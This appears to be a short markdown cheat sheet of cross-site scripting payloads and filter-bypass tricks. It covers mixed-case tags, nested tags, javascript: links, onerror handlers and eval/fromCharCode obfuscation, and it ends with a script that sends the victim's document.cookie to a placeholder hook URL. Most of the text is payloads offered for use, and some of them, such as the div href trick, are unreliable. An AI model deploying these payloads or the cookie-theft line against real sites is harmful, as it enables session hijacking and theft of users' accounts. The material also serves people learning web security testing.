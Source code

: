 # **XSS:**

- XSS attacks are mainly found on user input areas, where you place the script function and see if the application can process it.
- One way to avoid this is by filtering but there are a couple of ways to bypass such filters, or to bypass WAF detections. Below are some ways to bypass.
  - One way to bypass XSS filters is to use Uppercases and lowercases all together in your payload. **i.e:** `<ScRiPt>alert(1)</ScRiPt>`
  - Another way to bypass XSS filters is to place the `script` function withing a text. **i.e:** `hac<scr<script>ipt>alert(1)</scr</script>ipt>ker`
  - Another way to bypass XSS filters is to use JavaScript, there is a non-exhaustive list below are just afew of them.
  - with the `<a` tag one will be required to click the link to trigger it: `<a href='javascript:alert(1)'/>`
  - with the `<img` tag: `onerror: <img src='zzzz' onerror='alert(1)' />`
  - with the `<div` tag one will be required to hover on the link to trigger it: `<div href='javascript:alert(1)'/>`
  - When you find an XXS filter the alert word one can use JavaScript's `eval` and `String.fromCharCode()` function to get encode your payload.
    - [JavaScript eval String.fromCharCode encoder](https://eve.gd/2007/05/15/javascript-eval-string-fromcharcode-encoder/)
    - OR you can bypass the filter as below: `<script>eval("al"+"ert(1)")` where the plus should be url encoded which is `%2b`

  - A script to steal cookies:

    ```html
    <script>document.write('<img src="WEBSITE.hook-URL?c='+document.cookie+'" />')</script>
    ```

  - **Remember** to **always** url-encode the **`+`** sign or else your payload **won't work**.
